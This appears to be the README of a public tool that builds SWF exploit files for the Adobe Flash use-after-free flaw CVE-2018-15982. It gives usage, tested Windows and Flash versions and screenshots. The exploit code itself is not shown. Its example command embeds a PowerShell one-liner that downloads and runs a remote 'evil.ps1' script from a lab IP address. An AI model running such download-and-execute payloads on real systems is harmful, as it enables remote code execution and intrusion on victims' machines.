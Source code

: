 # Adobe Flash CVE-2018-15982

This script creates a swf payload for CVE-2018-15982, which is based off of the PoC from https://github.com/smgorelik/Windows-RCE-exploits.  The vulnerability was discovered by Chenming Xu and Ed Miles of Gigamon ATR.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982



Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.56.101/evil.ps1')" downloadtest.swf```
  


Tested on: 
* Windows 10 Enterprise 10.0.17134, Internet Explorer 11.285.17134.0
* Adobe Flash 31.0.0.153, 29.0.0.140


## Example


Create payload:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/create.png)


Executing payload:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec31.png)

Confirm execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/confirm31.png)

## Metasploit Module

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/metasploit-module.png)

